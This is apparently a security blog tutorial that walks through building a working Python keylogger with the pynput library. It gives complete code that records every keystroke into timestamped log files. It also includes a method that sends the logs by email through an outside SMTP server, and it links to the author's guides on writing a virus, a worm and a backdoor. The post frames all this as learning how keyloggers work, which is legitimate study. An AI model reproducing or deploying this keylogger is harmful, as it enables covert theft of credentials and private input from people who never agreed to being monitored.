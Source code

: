 ```yaml
---
layout: single
title: "Write A Basic Keylogger in Python"
excerpt:  "Want to understand how keyloggers work? This blog post will guide you through writing a basic keylogger in Python. Keyloggers can be useful tools for monitoring computer activity, but they can also be used maliciously to steal sensitive information. By building a keylogger yourself, you can gain a deeper understanding of how they function and how to protect against them."
seo_title:  "Learn How Keyloggers Work Through Writing a Basic Keylogger in Python" 
seo_description:  "Want to know how keyloggers work? In this blog post, you'll learn how to build a basic keylogger in Python. Gain a deeper understanding of how keyloggers function and how to protect against them."
header:
  image: "https://live.staticflickr.com/65535/51211036232_6916bf5c10_c.jpg"
  teaser: "https://live.staticflickr.com/65535/51211036232_6916bf5c10_c.jpg"
categories:
  - Security
tags:
  - Python
  - Tutorial
  - Keylogging
  - Keylogger
  - Trojan Horse
toc: true
toc_label: "Table of Contents"
toc_icon: "heart"
---
```



Keylogger is a simple yet effective program that can monitor a person's keyboard activities. It can be used to spy on a person's data (browsing activities, user credentials, etc.) or to monitor children activities.

It can be designed to store all keystrokes activities in a local log file or can be sent via email depending on how it is designed.

In this tutorial, we will see how to write a simple keylogger in python so that we understand the underlying theme of how it works. If you are interested to write other types of malwares, you can look into my previous posts:
* [Write a Simple Virus in Python](https://shantoroy.com/security/write-a-virus-in-python/)
* [Write a Worm (Malware) in Python](https://shantoroy.com/security/write-a-worm-malware-in-python/)
* [Write a Backdoor in Python](https://shantoroy.com/security/simple-backdoor-using-python/)


## Requirements
First, we need to install the module [pynput](https://pynput.readthedocs.io/en/latest/index.html). This module is used to control and monitor `keyboard` or `mouse/trackpad` activities.
```
$ pip install pynput
```

Now, for our simple program, we import the following modules

```python
from pynput.keyboard import Key, Listener
import  logging
import  os
from  datetime  import  datetime
```

## Writing a Keylogger Class
Let's create a keylogger class that contains all the methods we need to perform keylogger activities.

First, we need to create a directory that will contain our log files. We create a subdirectory named `log` in the current directory (from where we are running the script) if does not exist.

```python
class Keylogger:
     
    def create_log_directory(self):
        sub_dir = "log"
        cwd = os.getcwd()
        self.log_dir = os.path.join(cwd,sub_dir)
        if not os.path.exists(sub_dir):
            os.mkdir(sub_dir)
```

Next we create a static method that returns key information if a key is pressed. We need this function for later use.

```python
    @staticmethod
    def on_press(key):
        try:
            logging.info(str(key))
        except Exception as e:
            logging.info(e)
```

Finally, we need to report the keystroke information in a file. We create a text file and name with the current time as a prefix so that the program creates a new file each time it is run with a new filename. Also, we need to configure how we want the information to be stored in the log file using `logging.basicConfig` format. And then we use the `Listener` method to track keystroke information where we pass our previous static method as a callback.
```python
    def write_log_file(self):
        # time format example: '2021-05-29-171747'
        time = str(datetime.now())[:-7].replace(" ", "-").replace(":", "")
        # logging info in the file
        logging.basicConfig(
                 filename=(os.path.join(self.log_dir, time) + "log.txt"),
                 level=logging.DEBUG, 
                 format= '[%(asctime)s]: %(message)s',
             )
        
        with Listener(on_press=self.on_press) as listener:
            listener.join()
```

## Running the Script
Let's create the main function where we create an object of the `Keylogger` class, and then call the methods one after another.

```python
if  __name__ == "__main__":
	klog = Keylogger()
	klog.create_log_directory()
	klog.write_log_file()
```

Note that, while writing the code, I could avoid creating a class and use the methods as basic python functions. However, it is better to use classes so that you can add other functionalities when you need in the future.

Now, run the script from the terminal and check the created log files.
```sh
$ python keylogger.py
```

The whole is available [here](https://github.com/shantoroy/intro-2-cybersecurity-in-python/blob/master/keylogger/keylogger.py).

## Other Functionalities
You can add more functionalities, for example sending the logs via email or the log file as email attachments. 
```python
    def send_mail(self, email, password, TO, msg):
        with smtplib.SMTP("smtp.gmail.com", 587) as server:
            try:
                server.starttls()    # enable secure TLS mode
                server.login(email, password)
                server.sendmail(email, TO, msg)
            except Exception as e:
                pass
            finally:
                server.quit()
```
I will post details on how to send message via email or send an attachment with email in a seperate post.

That's it! Thanks for being with me. Cheers!



## References
* [pynput: Handling the keyboard](https://pynput.readthedocs.io/en/latest/keyboard.html)
* [Design a Keylogger in Python](https://www.tutorialspoint.com/design-a-keylogger-in-python)
* [How to Make a Keylogger in Python](https://www.thepythoncode.com/article/write-a-keylogger-python)
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE0ODgwNDk1MDcsLTEzNjk4NjU4NiwxNz
kxNjU1NjM4LC0xNjQ3ODMxNDgsLTc0Mzc5NTA3OCwxMzAyMzMx
ODM2XX0=
-->